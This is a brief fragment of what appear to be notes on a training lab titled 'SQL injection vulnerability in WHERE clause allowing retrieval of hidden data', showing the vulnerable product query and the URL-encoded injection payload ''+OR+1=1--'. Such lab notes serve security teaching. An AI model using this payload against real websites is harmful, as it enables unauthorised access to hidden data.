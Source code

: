 
## Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

``` SELECT * FROM products WHERE category = 'Gifts' AND released = 1 ```

``` '+OR+1=1-- ```

